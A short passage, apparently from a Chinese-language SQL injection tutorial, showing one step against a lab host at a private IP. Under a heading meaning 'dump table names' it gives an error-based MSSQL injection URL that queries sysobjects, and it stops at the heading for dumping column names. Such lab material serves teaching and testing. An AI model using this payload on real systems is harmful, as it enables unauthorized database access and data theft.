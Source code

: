 ![mysql](./img/1.4.1.png)


爆表名

```
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 name from sysobjects where xtype='u' and name !='info');--

```

![mysql](./img/1.4.2.png)

爆列名
